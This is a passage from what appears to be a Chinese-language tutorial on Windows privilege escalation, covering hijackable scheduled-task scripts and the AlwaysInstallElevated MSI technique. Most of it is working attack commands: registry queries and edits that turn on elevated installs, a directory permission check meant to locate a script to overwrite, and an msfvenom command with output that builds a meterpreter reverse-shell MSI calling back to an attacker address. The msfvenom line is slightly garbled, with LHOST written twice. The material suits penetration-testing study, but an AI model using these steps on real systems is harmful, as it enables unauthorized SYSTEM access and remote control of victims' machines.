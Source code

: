 ```
$task= Get-ScheduledTask -TaskName xxxx

ForEach ($action in $task.Actions) { Select $action.Execute}
```

检查路径是否可控

```
accesschk64.exe -dqv "/path/to/dir"
```

如果可控，我们可以覆盖该计划任务执行的脚本来获取shell

## MSI安装策略提权(AlwaysInstallElevated提权)

由于用户在配置msi安装策略时，配置了“永远以高权限安装”(默认情况下禁用)，导致攻击者可以安装一个恶意msi文件来获取SYSTEM权限

### 确定是否存在漏洞

当该项启用后，会在注册表的相应位置生成键值1，攻击者可以通过下列命令来查看是否开启此选项

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![5](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/5.png)

如图为未开放的情况

如果当前用户被赋予了权限(一般不可能),可以尝试开启该选项

```
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

### 创建恶意MSI文件并安装

利用msf来生成恶意msi文件

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.111.128 LHOST=4444 -f msi -o  reverse_tcp.mis
```

```bash
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.111.128 LHOST=4444 -f msi -o  reverse_tcp.mis
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: reverse_tcp.mis
```
